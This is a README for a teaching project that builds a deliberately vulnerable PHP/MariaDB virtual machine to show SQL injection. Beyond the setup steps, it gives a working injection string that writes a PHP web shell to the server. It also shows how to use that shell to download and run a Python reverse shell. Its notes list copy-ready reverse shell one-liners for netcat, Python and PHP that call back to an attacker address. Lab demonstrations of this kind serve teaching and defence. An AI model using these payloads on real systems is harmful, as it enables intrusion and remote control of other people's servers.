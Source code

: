 SQL INJECTION ATTACK EXAMPLE
============================

This is a small project to show how easy it can be to exploit SQL injection and how dangerous it can be.

Setup Instructions
----------------------------

In order to setup locally, you will need Virtualbox, Vagrant and Ansible installed on your work machine.

```
// Clone the repository to your work machine.
# git clone git@github.com:doublehops/sql-injection-attack-example.git

// Change into the new directory download and run the virtual machine with:
# vagrant up

// Ensure you can ssh into the virtual machine:
# ssh vagrant@192.168.30.99 -i .vagrant/machines/default/virtualbox/private_key

// Use Ansible to provision (install the webserver, PHP, MariaDB/MYSQL) the box with the following:
# dev/provision.sh local_dev

// Import database schema and data into database:
# dev/ssh-import-database.sh

// Load the webpage in your browser to check all is well: http://192.168.30.99
```

Play Around with SQL Injection
------------------------------

I have added an example of how to exploit an SQL Injection vulnerability by changing the passwords of all users in the user table.
<a href="sql-injection-playground.php">SQL Injection Playground</a>. You need to reload the page to see the results as the select query is executed before the update request.


Gain Shell Access to Webserver with the Help of SQL Injection
-------------------------------------------

Inject SQL that will create a PHP script that will run passed commads:
http://192.168.30.99/login.php?username=d%27;select%20%22%3C?php%20system($_GET[%27cmd%27]);%22%20into%20outfile%20%22/var/www/web/images/system.php%22;  

__PYTHON BACKDOOR__

Download Python reverse shell  
http://192.168.30.99/images/system.php?cmd=wget%20http://192.168.30.99/scripts/reverse-shell.py -O /tmp/reverse-shell.py

Setup the waiting prompt on your host machine - Netcat must be installed:  
`nc -nlvp 4444`

Run new Python reverse shell.  
http://192.168.30.99/images/system.php?cmd=/tmp/reverse-shell.py

The terminal on the host machine waiting for connection should be connected now. Try typing `ls -l /var/www/web` to see the files listed.


<img src="example-image.png" alt="example image" />

NOTES
----------

Setup host machine for incoming connections:  
`nc -nvlp 4444`

__Run reverse shell command on foreign machine:__

Netcat reverse shell:  
`nc.traditional -e /bin/sh <host> 4444`

Python reverse shell:  
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

PHP reverse shell:  
`php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
